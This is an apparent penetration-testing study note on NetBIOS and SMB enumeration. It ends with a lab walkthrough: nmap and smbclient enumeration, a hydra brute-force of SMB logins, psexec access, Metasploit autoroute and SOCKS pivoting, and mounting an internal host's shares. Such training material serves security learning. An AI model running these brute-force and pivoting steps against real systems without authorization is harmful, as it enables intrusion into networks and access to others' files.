 # SMB & NetBIOS Enumeration

* NetBIOS and SMB are two different technologies, but they are related in the context of networking and file sharing on Windows networks.

## NetBIOS (Network Basic Input/Output System)

* NetBIOS is an API and a set of network protocols for providing communication services over a local network. It is used primarily to allow applications on different comuters to find and interact with each other on a network.

Functions: NetBIOS offers three primary services:

* <mark style="color:red;">Name Service (NETBIOS-SN):</mark> Allows computers to register, unregister and resolve names in a local network.
* <mark style="color:red;">Datagram Service (NETBIOS-DGM)</mark>: Supports connectionless communication and broadcasting.
* <mark style="color:red;">Session Service (NetBIOS-SSN):</mark> Supports connection-oriented communication for more reliable data transfers

Ports: NetBIOS typically uses ports <mark style="color:blue;">137</mark> (Name Service), <mark style="color:blue;">138</mark> (Datagram Service) and <mark style="color:blue;">139</mark> (Session Service) over UDP and TCP.

## SMB (Server Message Block)

* SMB is a network file sharing protocol that allows computers on a network to share files, printers and other resources. It is the primary protocol used in Windows networks for these purposes.

#### Functions:

* SMB provides for file and printer sharing, named pipes and inter-process communication (<mark style="color:red;">IPC</mark>). It allows users to access files on remote computers as if they were local

#### Versions:

* <mark style="color:blue;">SMB 1.0</mark>: The original version, which had security vulnerabilities. It aws used with older OS like Windows XP.
* <mark style="color:blue;">SMB 2.0/2.1:</mark> Introduced with Windows Vista/Windows Server 2008, offering improved performance and security
* <mark style="color:blue;">SMB 3.0:</mark> Introduced with Windows 8/Windows Server 2012, adding features like encryption, multichannel support and improvements for virtualization.

#### Ports:

* SMB generally uses port 445 for direct SMB traffic (bypassing NetBIOS) and port 139 when operating with NetBIOS.

## SMB & NetBIOS Enumeration

* While NetBIOS and MSB were once closely linked, modern network rely primarily on SMB for file and printer sharing, often using DNS and other mechanisms for name resolution instead of NetBIOS.
* Modern implementations of Windows primarily use SMB and can workwithout NetBIOS, hoever, NetBIOS over TCP 139 is required for backward compatibility and are often enabled together.

## Practice Demo

In this case we will gain access to one machine and then pivot into an internal one.

Start by enumerating the target with nmap.

We find SMB and NetBIOS open.

## NetBIOS Enumeration

### Using nbtscan

Scans networks for NetBIOS name information

* <mark style="color:yellow;">nbtscan 'targetnetwork/24'</mark>

### Using nmblookup

* <mark style="color:yellow;">nmblookup -A targetIP</mark>

### Using nbstat nmap script

* <mark style="color:yellow;">nmap -sU -sV -T4 --script nbstat.nse -p137 -Pn -n targetIP</mark>

## Starting SMB Enumeration

Nmap scan ports 139,445 with -sV

### Using NSE

* <mark style="color:yellow;">nmap -p445 --script smb-protocols targetIP</mark>&#x20;

### Identify the SMB protocol Security Level

* <mark style="color:yellow;">nmap -p445 --script smb-security-mode targetIP</mark>&#x20;

Gives  you account details

### Using smbclient

#### Trying for anonymous login:

* <mark style="color:yellow;">smbclient -L targetIP</mark>

#### Now we can do user enumeration through the SMB service:

* <mark style="color:yellow;">nmap -p445 --script smb-enum-users targetIP</mark>

#### Create a text file with the enumerated users and use hydra to perform a bruteforce attack:

* <mark style="color:yellow;">hydra -L nameofusersfile -P /usr/share/metassploit-framework/data/wordlists/unix\_passwords.txt targetIP smb</mark>

We can now use the psexec.py script to login using the obtained credentials.&#x20;

We can also use the <mark style="color:red;">exploit/windows/smb/psexec</mark> metasploit module.

\-------------------------------------------------------------------------------

### Pivoting into the internal system from the first target

We start by pinging the second target's IP

#### Add the network route to the second target via the first compromised target:

<mark style="color:red;">SUPER IMPORTANTTTT</mark>

* <mark style="color:yellow;">run autoroute -s networkIPofsecondtarget/24</mark>

### Using Metasploit module

<mark style="color:blue;">Using this module ensures that yo can run any tool on the second target machine.</mark>

* <mark style="color:yellow;">auxiliary/server/socks\_proxy:</mark> Sets up a SOCKS proxy server on your local machine.

When setting the options take a look at the proxychains config file to see the port and version.

<mark style="color:purple;">NOTE:</mark> Set the options having in mind the port and version of the proxychains installed on your attacker machine.

#### After running the module we run:

* <mark style="color:yellow;">nmap targetofinternaltarget -sT -Pn- sV -p 445</mark>

We identify a Windows system running on the second target

#### Using <mark style="color:red;">net viewb</mark> to view all the resource shared by the second target (RUN IN THE FIRST MACHINE)

* <mark style="color:yellow;">net view secondtargetIP</mark>

#### In this case we have "access denied", to bypass this we migrate to "<mark style="color:red;">explorer.exe</mark>" and are able to net view.

* <mark style="color:yellow;">migrate -N explorer.exe</mark>

<mark style="color:purple;">NOTE:</mark> In this case we had to "deescalate" privileges to the explorer.exe process because NT\AUTHORITY SYSTEM <mark style="color:red;">does not</mark> have <mark style="color:red;">network credentials</mark> like a normal user would.

### Use enumerated shares

* <mark style="color:yellow;">net use D: \\\\'secondtarget'\\'nameofshare'</mark>
* <mark style="color:yellow;">net use K: \\\\'secondtargetIP'\\'nameofsecondshare'</mark>

<mark style="color:blue;">With these 2 commands we are mapping the available shares from the internal target to a drive on our exploited first target, so we can access them.</mark>

Now we can list those disks

* <mark style="color:yellow;">dir K:</mark>
